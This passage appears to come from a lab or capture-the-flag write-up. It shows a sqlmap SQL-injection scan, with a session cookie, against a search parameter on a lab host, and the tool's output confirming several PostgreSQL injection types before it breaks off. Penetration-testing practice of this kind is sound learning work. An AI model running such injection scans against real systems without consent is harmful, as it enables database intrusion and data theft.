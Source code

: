 		set query search=
		```
		Result: System is vulnerable
	* SQL injection scan with `sqlmap`:
		```
		sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=lkktfc22hu9uer2mlo36ngk6db"
		```
		
		Output:
		```
				___                                                                                                                                             
		       __H__                                                                                                                                            
		 ___ ___[,]_____ ___ ___  {1.4.4#stable}                                                                                                                 
		|_ -| . [.]     | .'| . |                                                                                                                                 
		|___|_  [(]_|_|_|__,|  _|                                                                                                                                 
		      |_|V...       |_|   http://sqlmap.org                                                                                                                
		
		[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
		
		[*] starting @ 14:40:35 /2020-05-04/
		
		[14:40:36] [INFO] testing connection to the target URL
		[14:40:37] [INFO] checking if the target is protected by some kind of WAF/IPS
		[14:40:37] [INFO] testing if the target URL content is stable
		[14:40:37] [INFO] target URL content is stable
		[14:40:37] [INFO] testing if GET parameter 'search' is dynamic
		[14:40:37] [INFO] GET parameter 'search' appears to be dynamic
		[14:40:38] [INFO] heuristic (basic) test shows that GET parameter 'search' might be injectable (possible DBMS: 'PostgreSQL')
		[14:40:38] [INFO] heuristic (XSS) test shows that GET parameter 'search' might be vulnerable to cross-site scripting (XSS) attacks
		[14:40:38] [INFO] testing for SQL injection on GET parameter 'search'
		it looks like the back-end DBMS is 'PostgreSQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
		for the remaining tests, do you want to include all tests for 'PostgreSQL' extending provided level (1) and risk (1) values? [Y/n] y
		[14:40:56] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
		[14:40:57] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
		[14:40:58] [INFO] testing 'Generic inline queries'
		[14:40:58] [INFO] testing 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)'
		[14:40:59] [INFO] GET parameter 'search' appears to be 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)' injectable (with --string="SUV")
		[14:40:59] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
		[14:40:59] [INFO] GET parameter 'search' is 'PostgreSQL AND error-based - WHERE or HAVING clause' injectable 
		[14:40:59] [INFO] testing 'PostgreSQL inline queries'
		[14:40:59] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
		[14:40:59] [WARNING] time-based comparison requires larger statistical model, please wait....... (done)                                                   
		[14:41:11] [INFO] GET parameter 'search' appears to be 'PostgreSQL > 8.1 stacked queries (comment)' injectable 
		[14:41:11] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
		[14:41:22] [INFO] GET parameter 'search' appears to be 'PostgreSQL > 8.1 AND time-based blind' injectable 
		[14:41:22] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
		GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
		sqlmap identified the following injection point(s) with a total of 34 HTTP(s) requests:
		---
		Parameter: search (GET)
		    Type: boolean-based blind